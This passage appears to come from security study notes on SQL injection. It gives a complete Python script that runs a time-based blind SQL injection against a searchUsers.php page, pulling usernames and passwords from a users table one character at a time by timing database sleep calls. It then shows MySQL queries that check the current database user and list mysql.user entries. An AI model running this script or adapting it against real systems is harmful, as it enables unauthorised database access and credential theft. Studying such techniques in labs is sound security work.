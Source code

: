 ```Python
from pwn import *
import signal
import sys

main_url = "http://localhost/searchUsers.php" # Don't forget to set the right IP
credentials = []

def def_handler(sig, frame):
    print("\n\nQuitting...\n")
    sys.exit(1)

# Ctrl_C
signal.signal(signal.SIGINT, def_handler)

def makeSQLI():
    
    p1 = log.progress("Brute Force")
    p1.status("Initianting brute force attack")

    time.sleep(2)

    p2 = log.progress("Extracted Data")

    extracted_data = ""

    empty = False
    position=0

    while empty == False:
        counter = 33
        position+=1
        for character in range(33, 127): #all characters represented in decimal
            counter+=1
            url = main_url + f"?id=3 and if((select ascii(substring(group_concat(id,0x3a,username,0x3a,password),{position},1)) from users)={character}, sleep(0.5),1)"
            p1.status(url)
            starting_time=time.time()
            r = requests.get(url)
            finish_time=time.time()
            if finish_time-starting_time > 0.5:
                extracted_data += chr(character)
                p2.status(extracted_data)
                break
            elif counter == 127:
                empty = True
    sys.exit(0)


if __name__ == '__main__':

    makeSQLI()
```
![[results_time.png]]
# Reading and Writing Files
## Checking User Privileges
First we need to find out what's the username we've got.
```MySQL
SELECT USER();
SELECT CURRENT_USER();
SELECT user from mysql.user;
```